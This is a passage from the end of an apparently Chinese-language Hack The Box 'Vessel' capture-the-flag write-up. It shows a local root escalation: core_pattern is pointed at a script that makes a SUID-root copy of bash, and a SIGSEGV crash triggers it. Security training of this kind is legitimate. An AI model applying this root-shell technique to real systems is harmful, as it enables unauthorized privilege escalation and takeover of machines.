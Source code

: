 同样检查是否更改对应值。发现成功了

```diff
ethan@vessel:/dev/shm$ cat /proc/sys/kernel/core_pattern /proc/sys/kernel/shm_rmid_forced
|/tmp/exp.sh #
1
```

在 `exp.sh` 下写入如下内容，并用 `chmod` 赋予对应权限（ `+x` )

```diff
#!/bin/bash

cp /bin/bash /tmp/htb
chown root:root /tmp/htb
chmod 4755 /tmp/htb
```

这个脚本是创建了一份bash得拷贝，并设置了对应的权限。同时我们的内核变量  `/proc/sys/kernel/core_pattern``  也已经指向到了该脚本

然后

```diff
cp exp.sh .w  /dev/shm
```

执行

```diff
sleep 100&
killall -s SIGSEGV sleep
```

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2037.png)

拿到root的flag

## 结语

虽然前面是express的mis-handle但是后续关于owa的历史版本1.7.3包含了大量的php代码审计部分，如果想训练代码审计结合实战是不错得选择。只是对我这种菜鸟代码量太多了，所以选择偷懒得方式直接看别人分析好的代码文章而不是clone历史漏洞版本。但，如果后续想要去尝试漏洞挖掘的时候回过头再过一遍这个分析的过程也是不错得选择。

老实说那个passwordgenerator有点坑……hard的box确实很难（叹气） 继续练习，不要放弃。

## Reference

- [https://0xdf.gitlab.io/2023/03/25/htb-vessel.html](https://0xdf.gitlab.io/2023/03/25/htb-vessel.html)
- [https://pentesterlab.com/](https://pentesterlab.com/)
- [https://devel0pment.de/?p=2494](https://devel0pment.de/?p=2494)
- [https://docs.kernel.org/admin-guide/sysctl/](https://docs.kernel.org/admin-guide/sysctl/)